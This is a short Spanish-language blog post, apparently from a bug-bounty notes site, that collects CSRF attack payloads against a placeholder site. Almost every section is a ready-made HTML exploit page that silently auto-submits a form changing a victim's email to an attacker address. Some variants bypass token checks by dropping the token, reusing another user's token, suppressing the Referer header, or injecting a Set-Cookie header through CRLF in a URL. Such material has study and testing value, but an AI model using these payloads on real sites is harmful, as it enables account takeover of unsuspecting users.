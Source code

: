 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Ataques CSRF y distintas formas de implementarlo.

# Table of Contents
1. [Vulnerabilidad CSRF sin defensas](#CSRFsinDefensas)
2. [Validación token depende método solicitud](#CSRFenGET)
3. [Validación token depende presencia token](#CSRFenPresencia)
4. [El token CSRF no está vinculado a la sesión del usuario](#CSRFnoVinculado)<br>
   4.1. [Mismo token entre usuarios](#MismoTokenUsuarios)<br>
   4.2. [Token no vinculado a la sesion](#SesionTokenNoVinculado)
5. [El token se duplica en la cookie](#TokenDuplicaCookie)
6. [CSRF sin Referrer](#CSRFsinReferrer)
---

### 1- Vulnerabilidad CSRF sin defensas <a name="CSRFsinDefensas"></a>
**CSRF basico correo**
Hace una peticion a la pagina en la ruta donde se cambia el correo y con el javascript confirma la peticion, lo cual se cambiará el correo con solo visitar la pagina.

Codigo de https://atacante.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 2- CSRF donde la validación del token depende del método de solicitud <a name="CSRFenGET"></a>
Dependiendo del metodo de peticion, se puede hacer con GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@evil-user.net"/>
```
---
### 3- CSRF donde la validación del token depende de la presencia del token <a name="CSRFenPresencia"></a>
**No verifica el token CSRF, se eliminia y se bypassea**

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### 4- El token CSRF no está vinculado a la sesión del usuario <a name="CSRFnoVinculado"></a>
**4.1- Podemos usar el mismo Token CSRF en un usuario que en otro al no estar vinculado a la sesión del usuario** <a name="MismoTokenUsuarios"></a>
Mi token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ sirve para otros usuario tambien.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@evil-user.net" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**4.2- El token CSRF no esta vinvulado a la sesion.** <a name="SesionTokenNoVinculado"></a>
Por lo que se podria usar el mismo csrf token y la misma csrf key en una cuenta que en otra para cambiar el correo  
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwn&#64;ed&#46;com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com//?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### 5- El token CSRF simplemente se duplica en una cookie <a name="TokenDuplicaCookie"></a>
El token se valida en la cookie, podemos hacer que el usuario se cree su propio token csrf el cual indicamos nosotros.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Como se validaba el token en la cookie podemos mandar la peticion para el cambio de correo.

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@evil-user.net">
            <input type="hidden" name="csrf" value="tokenfalsojeje">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=tokenfalsojeje" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### 6- CSRF sin Referrer <a name="CSRFsinReferrer"></a>
Indicamos que no exista el Referer en el exploit del CSRF usando el tag de meta

```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@evil-user.net" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```
